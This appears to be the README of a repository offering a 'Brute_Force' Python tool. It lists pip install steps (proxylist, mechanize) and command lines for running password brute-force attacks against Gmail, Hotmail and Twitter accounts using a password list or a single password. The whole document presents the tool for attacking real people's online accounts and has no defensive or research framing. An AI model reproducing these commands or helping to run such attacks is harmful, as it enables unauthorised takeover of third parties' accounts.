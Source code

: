 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

# install :
```bash
pip install proxylist

pip install mechanize
```


Usage:

# BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


# BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


# BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
```
